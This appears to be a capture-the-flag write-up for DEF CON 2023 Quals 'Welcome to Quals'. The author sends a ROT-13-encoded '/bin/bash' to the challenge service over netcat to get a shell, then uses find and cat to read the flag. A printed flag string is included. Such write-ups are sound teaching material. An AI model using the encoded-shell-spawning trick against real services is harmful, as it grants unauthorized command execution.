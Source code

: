 # Welcome to Quals

## Prompt
intro

Host: welcome-to-quals-vfnva65rlchqk.shellweplayaga.me

Port: 10001

## Analysis
Connecting to the challenge is the first step, and you're greeted with the prompt
```
kali@example:~/Documents/ctf/defcon2023/welcome-to-quals$ nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{some_ticket_value}
Hello challenger, enter your payload below:
```

When you type anything in, the prompt returns a ROT-13 version of your command.  The next step is real easy, but you have to move fast.  If you're too slow, you have to wait for the challenge to re-open.  From what I remember, it was a 10-second wait.

## Solution
The ROT-13 version of `/bin/bash` is `/ova/onfu`, so typing it in and navigating quickly:
```
kali@example:~/Documents/ctf/defcon2023/welcome-to-quals$ nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{some_ticket_value}
Hello challenger, enter your payload below:
/ova/onfu
find / type -f -name "*flag*"
```
returns

```
...
/welcome_flag.txt
...
Timeout!
```

Running the code again after I ran out of time,
```
kali@example:~/Documents/ctf/defcon2023/welcome-to-quals$ nc welcome-to-quals-vfnva65rlchqk.shellweplayaga.me 10001
Ticket please: ticket{some_ticket_value}
Hello challenger, enter your payload below:
/ova/onfu
cat /welcome_flag.txt
flag{OwnershipRemodel1982n23:TEMhDTMum5XNA-YIPDhex8KWYOXvi816ty_rShXZpBRhxy0pGN3tHxSqjXGuYSLntxvgTUjaEreyNN_A4yo-gQ}Timeout!
```

Moving fast on easy problems allows you to move onto more difficult problems and devote your time and focus to the bulk of the points.
